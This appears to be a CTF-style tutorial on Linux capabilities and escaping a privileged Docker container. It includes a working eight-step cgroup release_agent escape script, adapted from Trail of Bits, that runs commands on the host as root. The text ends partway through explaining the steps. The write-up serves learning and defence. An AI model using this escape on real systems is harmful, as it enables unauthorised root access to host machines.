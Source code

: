 ## What is Capabilities?
Capabilities in Linux are root permissions given to certain processes or executables within the Linux kernel. These privileges allow for the granular assignment of privileges. These capabilities determine what permissions a Docker container has to the operating system. Docker containers can run in two modes:
- **User (Normal) mode**: Only restricted to Docker engine.
- **Privileged mode**: Able to access and run command on host OS as root.
## Viewing Container Capabilities
We can use utility such as `capsh` which comes with the `libcap2-bin` package to list the capabilities our container has. For example:
```bash
capsh --print
```
This command would return capabilities and we might be able to see something of interest, for eample:
```bash
Current: = cap_chown, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid,cap_setuid
```
## Exploiting Capabilities
The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.), which details the inner workings of this exploit well.
```
1. mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
2. echo 1 > /tmp/cgrp/x/notify_on_release
3. host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
4. echo "$host_path/exploit" > /tmp/cgrp/release_agent
5. echo '#!/bin/sh' > /exploit
6. echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
7. chmod a+x /exploit
8. sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

For the first step, we need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses `cgroups` to manage processes on the operating system. Since we can manage `cgroups` as root on the host, we'll mount this to `/tmp/cgrp` on the container.